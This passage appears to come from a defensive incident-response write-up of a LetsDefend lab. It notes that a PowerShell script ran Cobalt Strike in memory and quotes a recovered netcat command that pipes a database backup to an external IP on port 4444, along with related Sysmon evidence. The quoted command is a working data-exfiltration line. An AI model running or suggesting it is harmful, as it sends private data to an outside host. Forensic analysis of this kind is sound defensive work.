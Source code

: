 #### Endpoint.ps1

It was observed that endpoint.ps1 was executed during the incident response. Upon analysis, it was determined that this script was, in fact, a PowerShell code running Cobalt Strike in memory. This information supplements the previous analysis.

#### NetCat for Windows

Noteworthy piece of evidence is found in the command history retrieved from the Letsdefend platform. The history reveals the following command: **`nc.exe -w 3 3.16.42.144 4444 < user-db-backup.sql`**.

![Untitled](/assets/img/analyzing-suspicious-powershell-execution/Untitled14.png)

Additionally, a corresponding event image has been included, which highlights a connection established with a malicious IP address (**`3.16.42.144`**). This event corresponds to Sysmon event ID 3 (network connection detected) and signifies network-based activity. It is highly suggestive of command and control communication or potential data exfiltration.

![Untitled](/assets/img/analyzing-suspicious-powershell-execution/Untitled15.png)
